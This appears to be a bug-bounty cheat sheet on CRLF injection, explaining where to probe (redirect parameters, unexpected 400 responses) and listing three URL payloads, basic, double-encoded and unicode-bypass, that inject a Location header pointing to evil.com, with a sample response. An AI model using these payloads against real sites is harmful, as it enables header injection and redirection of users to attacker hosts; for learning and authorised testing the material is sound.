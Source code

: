 # CRLF Injection

## Introduction
A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

## Where to find
It can be found anywhere, always check the request and response. Try to search for parameters that lead to redirects, you can see the response is (301, 302, 303, 307, 308).
Also observe the response and request.
Like let's assume we have a website named example.com and we know that /admin exist and when we type it it takes us to the particular endpoint but when we /axyz we know it doesn't exist and it should return 404 not found, but if it returns with something like 400 bad request then we know that the server is trying to process the request and then you can try CRLF.

## How to exploit
1. Basic payload
```
https://example.com/?lang=en%0D%0ALocation:%20https://evil.com/
```
The response is
```
HTTP/1.1 200 OK
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Set-Cookie: language=en
Location: https://evil.com/
```

2. Double encode
```
https://example.com/?lang=en%250D%250ALocation:%20https://evil.com/
```

3. Bypass unicode
```
https://example.com/?lang=en%E5%98%8A%E5%98%8DLocation:%20https://evil.com/
```

## References
* [@filedescriptor](https://blog.innerht.ml/twitter-crlf-injection/)
* [EdOverflow](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md)
